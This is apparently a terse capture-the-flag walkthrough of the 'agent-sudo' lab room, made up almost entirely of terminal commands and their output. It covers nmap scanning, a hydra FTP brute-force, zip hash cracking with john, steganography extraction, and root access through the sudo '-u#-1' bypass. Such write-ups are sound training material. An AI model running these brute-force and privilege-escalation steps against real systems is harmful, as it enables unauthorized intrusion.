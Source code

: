 ┌──(xnv㉿xnv)-[~/thm/agent-sudo]
└─$ nmap -A 10.10.252.69

'''
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
'''

┌──(xnv㉿xnv)-[~/thm/agent-sudo]
└─$ hydra -l chris -P ~/rockyou.txt ftp://10.10.252.69

'''
[21][ftp] host: 10.10.252.69   login: chris   password: *******
'''

┌──(xnv㉿xnv)-[~/thm/agent-sudo]
└─$ unzip _cutie.png.extracted 

'''
cutie.png.extract
'''

┌──(xnv㉿xnv)-[~/thm/agent-sudo]
└─$ zip2john 8702.zip > hash.txt


┌──(root💀xnv)-[/home/…/thm/agent-sudo/_cutie.png.extracted]
└─# john hash.txt -wordlist=../../../../rockyou.txt 

'''
alien            (8702.zip/To_agentR.txt)
'''

┌──(xnv㉿Kali)-[~/thm/agent-sudo/_cutie.png.extracted]
└─$ 7z x 8702.zip 


┌──(xnv㉿xnv)-[~/thm/agent-sudo/_cutie.png.extracted]
└─$ cat To_agentR.txt 

'''
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
'''

'''
DECODE BASE64    /  Area51
'''

┌──(xnv㉿Kali)-[~/thm/agent-sudo]
└─$ steghide extract -sf cute-alien.jpg 


┌──(xnv㉿Kali)-[~/thm/agent-sudo]
└─$ cat message.txt     

'''
Hi james,

Glad you find this message. Your login password is hackerrules!

'''

james@agent-sudo:~$ cat user_flag.txt 


┌──(xnv㉿Kali)-[~/thm/agent-sudo]
└─$ scp james@10.10.209.115:/home/james/Alien_autospy.jpg 

'''
james@agent-sudo:~$ sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
'''

'''
https://www.exploit-db.com/exploits/47502
'''

'''
james@agent-sudo:~$ sudo -u#-1 /bin/bash
'''

'''
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
'''

'''
root@agent-sudo:~#  cat /root/root.txt
'''